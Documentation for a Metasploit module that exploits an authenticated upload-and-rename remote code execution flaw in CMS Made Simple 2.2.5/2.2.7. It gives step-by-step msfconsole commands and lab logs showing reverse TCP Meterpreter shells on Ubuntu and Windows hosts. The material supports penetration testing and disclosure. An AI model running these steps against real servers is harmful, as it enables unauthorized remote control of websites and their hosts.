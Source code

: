 ## Description

  CMS Made Simple allows an authenticated administrator to upload a file
  and rename it to have a `.php` extension. The file can then be executed
  by opening the URL of the file in the `/uploads/` directory.

  This module has been successfully tested on CMS Made Simple versions
  2.2.5 and 2.2.7.

## Vulnerable Application

[CMS Made Simple v2.2.5](http://dev.cmsmadesimple.org/project/files/6)

## Verification Steps

1. `./msfconsole -q`
2. `use use exploit/multi/http/cmsms_upload_rename_rce`
3. `set username <username>`
4. `set password <password>`
5. `set rhosts <rhost>`
6. `run`

## Scenarios

### CMS Made Simple v2.2.5 on Ubuntu 18.04 (PHP 7.2.7, Apache 2.4.9)

```
msf5 > use exploit/multi/http/cmsms_upload_rename_rce
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set username msfdev
username => msfdev
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set password msfdev
password => msfdev
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set rhosts 172.22.222.123
rhosts => 172.22.222.123
msf5 exploit(multi/http/cmsms_upload_rename_rce) > run

[*] Started reverse TCP handler on 172.22.222.194:4444 
[*] Sending stage (37775 bytes) to 172.22.222.123
[*] Meterpreter session 1 opened (172.22.222.194:4444 -> 172.22.222.123:44352) at 2018-07-17 08:41:33 -0500

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter >
```

### CMS Made Simple v2.2.5 on Windows 10 x64 (PHP 5.6.35, Apache 2.4.33)

```
msf5 > use exploit/multi/http/cmsms_upload_rename_rce
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set username msfdev
username => msfdev
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set password msfdev
password => msfdev
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set rhosts 172.22.222.175
rhosts => 172.22.222.175
msf5 exploit(multi/http/cmsms_upload_rename_rce) > run

[*] Started reverse TCP handler on 172.22.222.194:4444 
[*] Sending stage (37775 bytes) to 172.22.222.175
[*] Meterpreter session 1 opened (172.22.222.194:4444 -> 172.22.222.175:49829) at 2018-07-17 08:46:27 -0500

meterpreter > sysinfo
Computer    : WIN10
OS          : Windows NT WIN10 10.0 build 17134 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter >
```
